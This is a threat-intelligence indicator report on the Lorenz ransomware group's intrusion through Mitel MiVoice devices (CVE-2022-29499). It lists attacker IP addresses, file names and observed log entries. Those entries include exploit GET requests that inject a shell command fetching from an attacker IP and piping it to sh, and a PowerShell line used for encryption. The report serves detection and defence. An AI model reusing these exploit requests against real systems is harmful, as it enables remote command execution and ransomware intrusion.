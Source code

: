 # Threat Report: 2022-09-21: Chiseling In: Lorenz Ransomware Group Cracks MiVoice And Calls Back For Free


## Key Intelligence
* Date: 2022-09-21
* Threat Level: 1 (High)
* Tags: tlp:white

---

## Indicators of Compromise (IOCs)
### External analysis
* vulnerability: CVE-2022-29499
* link: https://arcticwolf.com/resources/blog/lorenz-ransomware-chiseling-in/

### Network activity
* ip-dst: 137.184.181.252 — Used to exploit the Mitel device (CVE-2022-29499)
* ip-dst: 138.197.218.11 — Data exfiltration via FileZilla
* ip-dst: 138.68.19.94 — Data exfiltration via FileZilla
* ip-dst: 138.68.59.16 — Used to download Chisel
* ip-dst: 159.65.248.159 — Data exfiltration via FileZilla
* ip-dst: 206.188.197.125 — Data exfiltration via FileZilla; HTTP POST requests to notify threat actors of encryption progress
* ip-dst: 64.190.113.100 — Data exfiltration via FileZilla

### Other
* comment: "GET /scripts/vtest.php?get_url=http://127.0.0.1/ucbsync.php%3fcmd=syncfile:db_files/favicon.ico:137.184.181[.]252/%24%50%57%44%7c%73%68%7c%3f HTTP/1.1" 200 42 — GET requests observed, leading to successful exploitation of CVE-2022-29499
* comment: "GET /ucbsync.php?cmd=syncfile:db_files/favicon.ico:137.184.181[.]252/$PWD|sh|? HTTP/1.0" 200 — GET requests observed, leading to successful exploitation of CVE-2022-29499
* comment: cmd.exe /C powershell.exe Get-Content C:\\<Redacted>\worm.txt| PowerShell.exe -noprofile - > C:\\Windows\Temp\dlGjphUt.tmp 2>&1 — Encryption: Lorenz leveraged Microsoft’s BitLocker Drive Encryption by creating a file called worm.txt and then executing the file on the domain controller remotely via atexec.

### Payload installation
* filename: wc2_deploy

## Objects
### file — File object describing a file with meta-information
* [Payload delivery] sha256: <sha256>
* [Payload delivery] filename: mem

### file — File object describing a file with meta-information
* [Payload delivery] sha256: <sha256>
* [Payload delivery] filename: pdf_import_export.php
